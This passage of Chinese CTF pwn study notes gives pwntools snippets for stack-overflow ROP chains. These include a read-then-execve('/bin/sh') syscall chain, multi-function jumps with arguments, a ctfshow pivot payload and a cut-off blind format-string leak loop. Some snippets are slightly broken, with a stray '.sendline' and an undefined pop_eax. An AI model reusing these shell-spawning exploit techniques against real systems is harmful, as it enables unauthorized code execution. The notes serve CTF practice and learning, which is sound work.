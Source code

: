 ```python
pop_edx_ecx_ebx = 0x0806ecb0
bss = 0x080eb000
int_0x80 = 0x0806F350
payload = "a"*44
payload += p32(pop_eax)+p32(0x3)
payload += p32(pop_edx_ecx_ebx)+p32(0x10)+p32(bss)+p32(0)
payload += p32(int_0x80)
payload += p32(pop_eax)+p32(0xb)
payload += p32(pop_edx_ecx_ebx)+p32(0)+p32(0)+p32(bss)
payload += p32(int_0x80)
io.sendline(payload)
bin_sh = "/bin/sh\x00"
.sendline(bin_sh)
```

##### 多函数跳转：

利用溢出进行多个函数跳转和参数赋值：

```python
#32位
elf = ELF('./pwn')
flag_func1 = elf.sym['flag_func1']
flag_func2 = elf.sym['flag_func2']
flag = elf.sym['flag']

payload = "a" * (0x2c+4)
payload += p32(flag_func1)
payload += p32(flag_func2) + p32(flag) + p32(0xACACACAC) + p32(0xBDBDBDBD)#第二个参数给了flag()

```

利用函数的性质来进行跳转

```python
#ctfshow76
input_addr = 0x811EB40
shell = 0x8049284

payload = 'aaaa' + p32(shell) + p32(input_addr)
payload = payload.encode('base64')
#decode解码，encode编码
```



#### 格式化字符串

##### 工具：

-  payload = fmtstr_payload(偏移量, {改写地址: 写入的值}) 

- 字符串任意读脚本：

	```python
	#盲打
	#ctfshow99
	def leak(payload): 
	    io.remote()
		io.recv()  
		io.sendline(payload)   
		data = io.recvuntil('\n', drop=True)   
		if data.startswith('0x'):     
			print p64(int(data, 16))   
		io.close() 
	i =1
	while 1:   
		payload = '%{}$p'.format(i)   